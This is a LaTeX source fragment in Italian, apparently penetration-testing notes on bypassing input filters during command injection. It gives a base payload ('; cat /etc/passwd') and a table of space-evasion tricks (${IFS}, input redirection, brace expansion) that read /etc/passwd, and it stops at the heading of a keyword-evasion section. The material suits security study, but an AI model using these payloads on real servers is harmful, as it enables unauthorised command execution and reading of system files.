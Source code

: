 \documentclass[12pt,a4paper]{report}
\begin{document}
	\subsection{Tecniche di Evasione (Bypass dei Filtri)}
	
	Se il payload base (es. \texttt{; cat /etc/passwd}) viene bloccato, il server sta applicando dei filtri sull'input. Utilizzare le seguenti tecniche in ordine progressivo.
	
	\subsubsection{A. Bypass degli Spazi}
	Se il filtro blocca il carattere spazio (restituendo errori o troncando il comando):
	
	\begin{table}[h!]
		\centering
		\begin{tabular}{|l|l|p{7cm}|}
			\hline
			\textbf{Tecnica Bash} & \textbf{URL Encoded} & \textbf{Esempio Pratico} \\ \hline
			\textbf{Variabile IFS} & \texttt{\$\{IFS\}} & \texttt{cat\$\{IFS\}/etc/passwd} \\ \hline
			\textbf{Ridirezione Input} & \texttt{\textless} & \texttt{cat\textless{}/etc/passwd} (Funziona solo per comandi che leggono file) \\ \hline
			\textbf{Brace Expansion} & \texttt{\{cmd,arg1\}} & \texttt{\{cat,/etc/passwd\}} \\ \hline
		\end{tabular}
		\caption{Metodi di bypass per il blocco del carattere spazio.}
	\end{table}
	
	\subsubsection{B. Bypass del Nome del Comando (Evasione Stringhe "cat", "id", ecc.)}
	Se il filtro esegue un controllo testuale statico sulle parole chiave:
	
\end{document}
